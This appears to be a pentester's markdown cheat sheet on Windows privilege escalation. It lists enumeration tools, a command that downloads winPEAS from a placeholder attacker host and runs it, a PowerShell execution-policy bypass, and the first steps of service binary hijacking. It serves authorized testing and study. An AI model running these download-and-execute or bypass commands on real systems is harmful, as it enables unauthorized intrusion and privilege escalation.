 
## Automated enumeration

Tools:
- winPEAS
- Seatbelt
- JAWS

Transfer the executable using iwr:
```powershell
iwr -uri http://<IP>/winPEASx64.exe -Outfile winPEAS.exe

# Execute
.\winPEAS.exe
```

PrivescCheck:
- https://github.com/itm4n/PrivescCheck
```powershell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

PowerUp:
```bash
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

SharpUp:
- https://github.com/alexandre-pecorilla/Binaries-Scripts/blob/main/SharpUp.exe
```bash
.\SharpUp.exe audit
```


## Common Attacks

### Service Binary Hijacking

List running services:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# On non-RDP session:
sc.exe query
sc.exe qc <service>
Get-WmiObject Win32_Service | Select-Object Name, PathName
```

Try to find files that are not in the default directory of `C:\Windows\System32` since these are usually user installed. Using icacls we can retrieve the permissions set: (we are looking for F)
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```
